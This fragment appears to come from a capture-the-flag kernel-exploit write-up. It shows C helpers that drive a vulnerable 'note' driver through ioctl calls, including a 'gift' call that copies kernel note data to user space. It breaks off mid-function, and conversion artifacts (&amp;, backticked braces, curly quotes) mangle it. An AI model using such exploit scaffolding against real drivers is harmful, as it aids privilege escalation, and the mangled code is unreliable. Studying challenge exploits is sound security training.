 ​

static void add_note(int idx, uint64_t size, char *buf) `{`

  struct note_userarg n;

  n.idx = idx;

  n.size = size;

  n.buf = buf;

  ioctl(fd, 0x100, &amp;n);

`}`

​

static void del_note(int idx) `{`

  struct note_userarg n;

  n.idx = idx;

  ioctl(fd, 0x200, &amp;n);

`}`

​

static void edit_note(int idx, uint64_t size, char *buf) `{`

  struct note_userarg n;

  n.idx = idx;

  n.size = size;

  n.buf = buf;

  ioctl(fd, 0x300, &amp;n);

`}`

​

static void gift() `{`

  struct note_userarg n;

  n.buf = buffer;

  ioctl(fd, 0x64, &amp;n);

  memcpy(note_in_kernel, buffer, sizeof(note_in_kernel));

`}`

​

static void debug_display_notes() `{`

  gift();

  printf(“Notes:\n”);

